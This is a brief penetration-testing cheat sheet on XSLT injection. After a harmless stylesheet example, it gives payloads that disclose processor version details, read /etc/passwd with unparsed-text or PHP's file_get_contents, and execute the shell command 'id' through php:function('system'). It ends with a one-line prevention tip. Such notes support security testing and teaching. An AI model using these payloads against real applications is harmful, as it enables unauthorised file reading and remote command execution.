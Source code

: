 ## eXtensible Stylesheet Language Transformation (XSLT)

#xml

**Examples**:
```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```

#### Info disclosure
[[Information disclosure]]
```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

#### LFI
[[LFI]]
XSLT 2.0
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```
<2.0
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

##### RCE
[[RCE]]
```xml
<xsl:value-of select="php:function('system','id')" />
```


#### Prevention
Escape <, > and other symbols